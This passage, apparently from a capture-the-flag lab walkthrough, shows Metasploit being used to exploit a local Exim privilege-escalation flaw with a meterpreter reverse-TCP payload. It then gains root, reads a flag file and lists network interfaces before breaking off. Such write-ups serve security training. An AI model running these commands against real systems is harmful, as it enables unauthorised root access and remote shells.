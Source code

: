 ```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`search exim`, `use exploit/linux/local/exim4_deliver_message_priv_esc`, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, `show options`, `set SESSION 1`, `set LHOST 192.45.82.2`, `exploit -j`. [✓]

`sysinfo`:
```
Computer     : demo.ine.local
OS           : Ubuntu 14.04 (Linux 5.4.0-152-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

`getuid`:
```
Server username: root ←
```

`ls /root`:
```
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  3106  fil   2014-02-20 08:13:56 +0530  .bashrc
100644/rw-r--r--  140   fil   2014-02-20 08:13:56 +0530  .profile
100644/rw-r--r--  33    fil   2022-01-24 13:37:35 +0530  FLAG2
```

`cat /root/FLAG2`:
```
79ff114680e11e44a71d773068485a9e ←
```

**Step 5**.

`exit`, `ipconfig`:
```
Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface  2
============
Name         : ip_vti0
Hardware MAC : 00:00:00:00:00:00
MTU          : 1480
Flags        : NOARP


Interface 339459
============
Name         : eth0
Hardware MAC : 02:42:c0:1a:15:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
```